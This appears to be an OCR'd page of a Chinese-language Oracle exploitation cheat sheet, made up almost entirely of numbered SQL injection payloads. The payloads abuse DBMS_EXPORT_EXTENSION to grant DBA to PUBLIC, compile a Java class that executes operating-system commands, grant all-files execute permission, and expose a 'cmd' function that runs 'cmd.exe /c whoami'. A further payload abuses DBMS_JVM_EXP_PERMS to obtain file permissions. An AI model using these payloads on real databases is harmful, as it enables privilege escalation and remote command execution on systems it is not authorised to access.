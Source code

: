 ```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS _OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant dba to public'''';END;'';END;--','SYS',0,'1',0) from dual
```

二、创建 Java 代码执行命令

```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT" .PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace and compile java source named "Command" as import java.io.*;public class Command{public static String exec(String cmd) throws Exception{String sb="";BufferedInputStream in = new BufferedInputStream(Runtime.getRuntime().exec(cmd).getInputStream());BufferedReader inBr = new BufferedReader(new InputStreamReader(in));String lineStr;while ((lineStr = inBr.readLine()) != null)sb+=lineStr+"\n";inBr.close();in.close();return sb;}}'''';END;'';END;--','SYS',0,'1',0) from dual
```

三、赋予 Java 执行权限

```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''begin dbms_java.grant_permission( ''''''''PUBLIC'''''''', ''''''''SYS:java.io.FilePermission'''''''', ''''''''<<ALL FILES>>'''''''', ''''''''execute'''''''' );end;'''';END;'';END;--','SYS',0,'1',0) from dual
```

四、创建函数

```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT" .PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace function cmd(p_cmd in varchar2) return varchar2 as language java name ''''''''Command.exec(java.lang.String) return String''''''''; '''';END;'';END;--','SYS',0,'1',0) from dual
```

五、赋予函数执行权限

```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT" .PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant all on cmd to public'''';END;'';END;--','SYS',0,'1',0) from dual
```

六、执行命令

```
select sys.cmd('cmd.exe /c whoami') from dual
```

另外如果不是 dba 权限但是具有 java.io.FilePermission 可以使用漏洞函数执行命令

1、尝试赋予 java.io.FilePermission 权限

```
DECLARE POL DBMS_JVM_EXP_PERMS.TEMP_JAVA_POLICY;CURSOR C1 IS SELECT 'GRANT',USER(), 'SYS','java.io.FilePermission','<<ALL FILES>>','execute','ENABLED' from dual;BEGIN OPEN C1;FETCH C1 BULK COLLECT INTO POL;CLOSE C1;DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS(POL);END;
```
